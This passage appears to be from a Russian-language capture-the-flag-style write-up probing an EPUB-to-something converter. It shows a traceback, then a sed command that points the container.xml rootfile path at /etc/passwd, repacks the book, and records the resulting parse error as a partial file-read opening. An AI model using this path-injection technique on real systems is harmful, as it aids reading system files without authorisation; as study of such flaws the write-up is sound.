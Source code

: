 ```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
Rootfile found at OEBPS/content.opf
Traceback (most recent call last):
  File "/home/bookkeeper/books/convert.py", line 29, in <module>
    opf = ET.parse(rootfile)
          ^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/xml/etree/ElementTree.py", line 1218, in parse
    tree.parse(source, parser)
  File "/usr/local/lib/python3.11/xml/etree/ElementTree.py", line 569, in parse
    source = open(source, "rb")
             ^^^^^^^^^^^^^^^^^^
FileNotFoundError: [Errno 2] No such file or directory: 'OEBPS/content.opf'
```

Сразу заметим, что путь из свойства `full-path` напрямую передается функции `ET.parse`. Значит ли это, что можно передать любой путь, в том числе абсолютный, и тогда конвертер прочитает произвольный файл?

```shell
$ sed -i 's!OEBPS/content.opf!/etc/passwd!' META-INF/container.xml
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 30%)
```

```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
Rootfile found at /etc/passwd
Traceback (most recent call last):
  File "/home/bookkeeper/books/convert.py", line 29, in <module>
    opf = ET.parse(rootfile)
          ^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/xml/etree/ElementTree.py", line 1218, in parse
    tree.parse(source, parser)
  File "/usr/local/lib/python3.11/xml/etree/ElementTree.py", line 580, in parse
    self._root = parser._parse_whole(source)
                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^
xml.etree.ElementTree.ParseError: not well-formed (invalid token): line 1, column 16
```

Да, значит, но `/etc/passwd` — невалидный XML, поэтому произвольный файл мы так не прочитаем. Будем держать эту возможность в уме. а пока вернем все как было и добавим нормальный `OEBPS/content.opf`. Его примера на Википедии уже нет, поэтому придется достать какую-нибудь книгу и скопировать оттуда, для удобства вырезав все необязательные (согласно [спефицикации](https://www.w3.org/TR/epub-rs/)) поля:
